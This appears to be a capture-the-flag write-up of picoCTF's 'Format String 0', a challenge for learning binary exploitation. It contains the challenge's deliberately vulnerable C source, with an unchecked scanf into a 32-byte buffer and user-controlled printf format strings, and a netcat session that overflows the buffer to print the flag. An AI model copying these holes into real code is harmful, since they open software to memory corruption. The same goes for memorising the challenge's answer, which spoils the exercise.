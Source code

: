 ---
title: "PicoCTF: Format String 0"
summary: "Introduction to Buffer Overflows"
date: 2024-09-09
tags: ["picoctf", "c"]
categories: ["write-up", "binary exploitation"]
draft: false
---

* Problem Overview
We are given a binary executable and the associated source code. Somehow, we need to exploit the below code with user input to get the flag printed.
#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();

    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}


#+end_src

* Exploring Possible Vulnerabilities

** SIGSEGV
Because we have the source code and we know that a function exists to print the code, let's see the control flow with printing the flag.

It looks like the program will output the contents of the flag if given a =SIGSEGV= signal. This code is wrapped in the =sigsegv_handler= function.
#+begin_src c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
#+end_src

The =SIGSEGV= signal comes from memory access violations, so let's poke around the code and see if there is any problematic memory handling.
*** Buffers
The code declares a buffer size of 32 bytes, but does not check if user input will fit into the buffer:
#+begin_src c
#define BUFSIZE 32
#define FLAGSIZE 64

...
char choice1[BUFSIZE];
scanf("%s", choice1);
#+end_src
So, we should be able to just provide a long string and get the flag.

* Exploiting the Buffer
#+begin_src shell
> nc mimas.picoctf.net 54844

Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?

Here comes the first customer Patrick who wants a giant bite.

Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe

Enter your recommendation: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
#+end_src
